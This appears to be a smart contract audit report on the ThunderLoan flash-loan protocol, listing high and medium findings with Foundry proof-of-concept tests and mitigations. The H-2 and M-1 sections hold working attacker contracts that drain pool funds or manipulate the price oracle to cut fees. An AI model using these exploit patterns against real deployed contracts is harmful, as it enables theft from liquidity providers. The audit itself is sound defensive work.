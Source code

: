 ### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks the redemption and incorrectly sets the exchange rates. 

**Introduction** In the Thunderloan system , the `exchangeRate` is responsible for calculating the exchange rate between assetToken and underlying tokens. In a way it is responsible to keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate without collecting any fees. This update should be removed.

```javascript

 function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>        uint256 calculatedFee = getCalculatedFee(token, amount);
@>        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

**Impact** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed token is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or way less than deserved.

**Proof of concept** 
1. LP deposits.
2. User takes out a flash loan.
3. It is now impossible for LP to redeem. 

<details>
<summary>Proof of codes</summary>

Place the following into `ThunderLoan.t.sol`. 

```javascript
 function testRedeemAfterLoan() external setAllowedToken hasDeposits {
 uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

uint256 amountToRedeem = type(uint256).max ;
vm.startPrank(liquidityProvider) ;
thunderLoan.redeem(tokenA , amountToRedeem) ;
    }
```

</details>

**Recommended Mitigation** Removed the incorrectly updated exchange rate lines from `deposit`.

```diff

   function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-        uint256 calculatedFee = getCalculatedFee(token, amount);
-        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

### [H-2] All the funds can be stolen if the flash loan is returned using deposit()

**Description :** The flashloan() performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing endingBalance with startingBalance + fee. However, a vulnerability emerges when calculating endingBalance using token.balanceOf(address(assetToken)).

Exploiting this vulnerability, an attacker can return the flash loan using the deposit() instead of repay(). This action allows the attacker to mint AssetToken and subsequently redeem it using redeem(). What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact :** An attacker can acquire a flash loan and deposit funds directly into the contract using the deposit(), enabling stealing all the funds. All the funds of the AssetContract can be stolen.



**Proof of concept :**
Paste the following on `ThunderLoanTest.t.sol`

<details>
<summary> Code </summary>

```javascript
function testUseDepositInsteadOfRepayToStealFunds() external setAllowedToken hasDeposits {
 vm.startPrank(user) ;
 uint256 amountToBorrow = 50e18 ;
 uint256 fee = thunderLoan.getCalculatedFee(tokenA , amountToBorrow) ;
DepositOverRepay dor = new DepositOverRepay(address(thunderLoan)) ;
tokenA.mint(address(dor),fee) ;
thunderLoan.flashloan(address(dor) , tokenA , amountToBorrow , "") ;
dor.redeemMoney() ;
vm.stopPrank() ;

assert(tokenA.balanceOf(address(dor)) > 50e18+fee) ;
 }



 contract DepositOverRepay is IFlashLoanReceiver {
  ThunderLoan thunderLoan ;
  AssetToken assetToken ;
IERC20 s_token ;

    constructor(address _thunderLoan){
thunderLoan = ThunderLoan(_thunderLoan);
    }

     function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool){
            s_token =  IERC20(token) ;
            assetToken = thunderLoan.getAssetFromToken(IERC20(token)) ;
            IERC20(token).approve(address(thunderLoan) , amount+fee) ;
            thunderLoan.deposit(IERC20(token) , amount+fee) ;

return true ;
}

function redeemMoney() external {
uint256 amount = assetToken.balanceOf(address(this)) ;
thunderLoan.redeem(s_token , amount) ;
}
 }
```

</details>

**Recommended Mitigation :** Add a check in deposit() to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in flashloan() and checking it in deposit().

### [H-3] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashloanFee` and `ThunderLoan::s_currentlyFlashLoaning`.

**Description :** `ThunderLoan.sol` has two variables in the following orders :

```javascript
 uint256 private s_feePrecision;
 uint256 private s_flashLoanFee;
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has different order.

```javascript
    uint256 private s_flashLoanFee ; 
    uint256 public constant FEE_PRECISION = 1e18 ;
```

Thunderloan.sol at slot 1,2 and 3 holds s_feePrecision, s_flashLoanFee and s_currentlyFlashLoaning, respectively, but the ThunderLoanUpgraded at slot 1 and 2 holds s_flashLoanFee, s_currentlyFlashLoaning respectively. the s_feePrecision from the thunderloan.sol was changed to a constant variable which will no longer be assessed from the state variable. This will cause the location at which the upgraded version will be pointing to for some significant state variables like s_flashLoanFee to be wrong because s_flashLoanFee is now pointing to the slot of the s_feePrecision in the thunderloan.sol and when this fee is used to compute the fee for flashloan it will return a fee amount greater than the intention of the developer. s_currentlyFlashLoaning might not really be affected as it is back to default when a flashloan is completed but still to be noted that the value at that slot can be cleared to be on a safer side.

**Impact :** 
1. Fee is miscalculated for flashloan
2. users pay same amount of what they borrowed as fee

**Proof of concept :** 
```java
function testUpgradeBreaks() external {
    uint256 feeBeforeUpgrade = thunderLoan.getFee() ;

    vm.startPrank(thunderLoan.owner()) ;
    ThunderLoanUpgraded upgraded= new ThunderLoanUpgraded()  ;
    thunderLoan.upgradeToAndCall(address(upgraded) , "");
    uint256 feeAfterUpgrade = thunderLoan.getFee() ;
    vm.stopPrank() ;

    console2.log("Fee Before :" , feeBeforeUpgrade);
    console2.log("Fee After :" , feeAfterUpgrade);
 
 assert(feeBeforeUpgrade != feeAfterUpgrade);
}
```
Paste the above code in `ThunderLoanTest.t.sol`.

**Recommended Mitigation :** If you must remove the storage variable, leave it as a blank as to not mess up the storage slots.

```diff
- uint256 private s_flashLoanFee;
- uint256 public constant FEE_PRECISION = 1e18;

+    uint256 private blank_space ;
+    uint256 private s_flashLoanFee ; 
+    uint256 public constant FEE_PRECISION = 1e18 ;
```

## Medium

### [M-1] Using TSwap as a price oracle leads to price and oracle manipulation attacks.

**Description :** The TSwap protocol is a constant product formula based in AMM. The price of token is determined by how many reserves are on either side of a pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of token in the same transaction, essentially ignoring the protocol fees.

**Impact :** Liquidity providers will drastically reduced fee for providing liquidity.

**Proof of Concept :**

The following all happens in 1 transaction.

1. User takes a flash loan from ThunderLoan for 1000 tokenA. They are charged the original fee fee1. During the flash loan, they do the following:

    1. User sells 1000 tokenA, tanking the price.

2. Instead of repaying right away, the user takes out another flash loan for another 1000 tokenA.

    1. Due to the fact that the way ThunderLoan calculates price based on the TSwapPool, this second flash loan is substantially cheaper.

```javascript
function getPriceInWeth(address token) public view returns (uint256) {
    address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
    return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
}
```

3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>Code</summary>

```javascript
 function testPriceOracleManipulation() external{
        thunderLoan = new ThunderLoan() ;
    ERC20Mock newTokenA = new ERC20Mock();
       proxy = new ERC1967Proxy(address(thunderLoan) , "");
       BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth)) ;
       address tswapPool = pf.createPool(address(tokenA)) ;
       thunderLoan = ThunderLoan(address(proxy)) ;
       thunderLoan.initialize(address(pf)) ;

       vm.startPrank(liquidityProvider) ;
       tokenA.mint(liquidityProvider , 100e18) ;
       tokenA.approve(address(tswapPool) , 100e18) ;
       weth.mint(liquidityProvider , 100e18) ;
       weth.approve(address(tswapPool) , 100e18) ;
       BuffMockTSwap(tswapPool).deposit(100e18,100e18,100e18,block.timestamp) ;
vm.stopPrank();

vm.prank(thunderLoan.owner()) ;
thunderLoan.setAllowedToken(tokenA , true) ;


vm.startPrank(liquidityProvider) ;
tokenA.mint(liquidityProvider , 1000e18);
tokenA.approve(address(thunderLoan) , 1000e18);
thunderLoan.deposit(tokenA , 100e18) ;
vm.stopPrank() ;

uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA , 100e18) ;
console2.log("Normal Fee Cost Is : ", normalFeeCost);
// 0.296147410319118389

uint256 amountToBorrow = 50e18 ;
MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(tswapPool),address(thunderLoan),address(thunderLoan.getAssetFromToken(tokenA))) ;

vm.startPrank(user);
tokenA.mint(address(flr) , 100e18) ;
thunderLoan.flashloan(address(flr) , tokenA, amountToBorrow,"") ;
vm.stopPrank();

uint256 attackedFee = flr.fee1() + flr.fee2() ;
console2.log("attackedFee : ", attackedFee) ;
//0.214167600932190305
assert(attackedFee < normalFeeCost) ;
 }

contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
  ThunderLoan thunderLoan ;
  address repayAddress ;
  BuffMockTSwap tswapPool ;
bool attacked ;
uint256 public fee1 ; 
uint256 public fee2 ;

    constructor(address _tswappool , address _thunderLoan, address _repayAddress){
tswapPool = BuffMockTSwap(_tswappool);
thunderLoan = ThunderLoan(_thunderLoan);
repayAddress = _repayAddress ;
    }

     function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool){
if(!attacked){
fee1 = fee ;
attacked = true ;

uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18 , 100e18, 100e18) ;
IERC20(token).approve(address(tswapPool) , 50e18) ;
tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought , block.timestamp) ;

thunderLoan.flashloan(address(this) , IERC20(token), amount , "");

// IERC20(token).approve(address(thunderLoan), amount+fee);
// thunderLoan.repay(IERC20(token) , amount+fee);

IERC20(token).transfer(address(repayAddress) , amount+fee) ;

}else{

fee2 = fee ;

// IERC20(token).approve(address(thunderLoan), amount+fee);
// thunderLoan.repay(IERC20(token) , amount+fee);
IERC20(token).transfer(address(repayAddress) , amount+fee) ;

}
return true ;
        }
}
```

</details>

**Recommended Mitigation :** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.


